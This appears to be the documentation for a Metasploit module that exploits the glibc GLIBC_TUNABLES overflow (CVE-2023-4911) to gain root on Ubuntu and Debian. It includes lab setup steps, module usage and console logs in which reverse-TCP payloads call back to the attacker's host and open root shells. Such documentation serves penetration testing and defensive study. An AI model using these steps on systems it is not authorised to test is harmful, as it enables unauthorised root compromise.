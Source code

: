 ## Vulnerable Application

A buffer overflow was exists in the GNU C Library's dynamic loader ld.so while processing the GLIBC_TUNABLES environment
variable. This issue allows an local attacker to use maliciously crafted GLIBC_TUNABLES environment variables when
launching binaries with SUID permission to execute code in the context of the root user. 

This module targets glibc packaged on Ubuntu and Debian. The specific versions this module targets are:

Ubuntu:
2.35-0ubuntu3.4 > 2.35
2.37-0ubuntu2.1 > 2.37
2.38-1ubuntu6 > 2.38

Debian: 
2.31-13-deb11u7 > 2.31
2.36-9-deb12u3 > 2.36

Fedora 37 and 38 and other distributions of linux also come packaged with versions of glibc vulnerable to CVE-2023-4911
however this module does not target them.  

### Description

The GLIBC_TUNABLES environment variable is parsed in a loop and is expected to be provided in the following format:
`tunable1=aaa:tunable2=bbb`. If the variable is sent in the following format: `tunable1=tunable2=AAA` due to the
absence of the tunable delimiter `:` in the string, the value `tunable2=AAA` is handled incorrectly and results in a
buffer overflow.

### Setup

Install [Ubuntu 22.04.3](https://releases.ubuntu.com/jammy/ubuntu-22.04.3-desktop-amd64.iso) while ensuring the VM does 
not have internet access. 

Once booted up, edit `/etc/apt/apt.conf.d/20auto-upgrades` and change `APT::Periodic::Unattended-Upgrade` from `1` to
`0` to ensure to ensure the machine doesn't patch itself.

Ensure that glibc is at version 2.35-0ubuntu3.1 by running the following:
```
msfuser@msfuser-virtual-machine:~$ ldd --version
ldd (Ubuntu GLIBC 2.35-0ubuntu3.1) 2.35
Copyright (C) 2022 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
Written by Roland McGrath and Ulrich Drepper.
```
The target should be exploitable.

## Verification Steps

1. Start `msfconsole`
2. Get a session
3. Do: `use exploit/linux/local/glibc_tunables_priv_esc`
4. Do: `set SESSION [SESSION]`
5. Do: `check`
6. Do: `run`
7. You should get a new *root* session

## Scenarios

### Ubuntu 22.04.3 with 2.35-0ubuntu3.1 installed (ARCH_X64)
```
msf6 exploit(linux/local/glibc_tunables_priv_esc) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/glibc_tunables_priv_esc) > set session -1
session => -1
msf6 exploit(linux/local/glibc_tunables_priv_esc) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(linux/local/glibc_tunables_priv_esc) > set lport 5555
lport => 5555
msf6 exploit(linux/local/glibc_tunables_priv_esc) > options

Module options (exploit/linux/local/glibc_tunables_priv_esc):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   COMPILE  Auto             yes       Compile on target (Accepted: Auto, True, False)
   SESSION  -1               yes       The session to run this module on


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.123.1    yes       The listen address (an interface may be specified)
   LPORT  5555             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Auto

msf6 exploit(linux/local/glibc_tunables_priv_esc) > run

View the full module info with the info, or info -d command.

[*] Started reverse TCP handler on 192.168.123.1:5555
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The glibc version (2.35-0ubuntu3.1) found on the target appears to be vulnerable
[*] Writing '/tmp/2Vkty.py' (13770 bytes) ...
[*] Running python3 /tmp/2Vkty.py
[+] The exploit is running. Please be patient. Receiving a session could take up to 10 minutes.
[*] Sending stage (3045380 bytes) to 192.168.123.228
[+] Deleted /tmp/2Vkty.py
[*] Meterpreter session 2 opened (192.168.123.1:5555 -> 192.168.123.228:33522) at 2023-11-15 21:58:37 -0500

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.123.228
OS           : Ubuntu 22.04 (Linux 6.2.0-35-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >

```

### Debian 12 with 2.36-9-deb12u1 installed (ARCH_X64)
```
msf6 exploit(linux/local/looney_tunables_lpe) > rexploit
[*] Reloading module...

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The glibc version (2.36-9-deb12u1) found on the target appears to be vulnerable
[*] Writing '/tmp/SnnDbAMC.py' (13770 bytes) ...
[*] Running python3 /tmp/SnnDbAMC.py
[+] The exploit is running. Please be patient. Receiving a session could take up to 10 minutes.
[*] Sending stage (38 bytes) to 192.168.123.229
[+] Deleted /tmp/SnnDbAMC.py
[*] Command shell session 9 opened (192.168.123.1:4444 -> 192.168.123.229:50854) at 2023-11-14 21:03:57 -0500

id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),111(bluetooth),113(lpadmin),116(scanner),1000(msfuser)
uname -a
Linux debian 6.1.0-10-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.38-2 (2023-07-27) x86_64 GNU/Linux
```
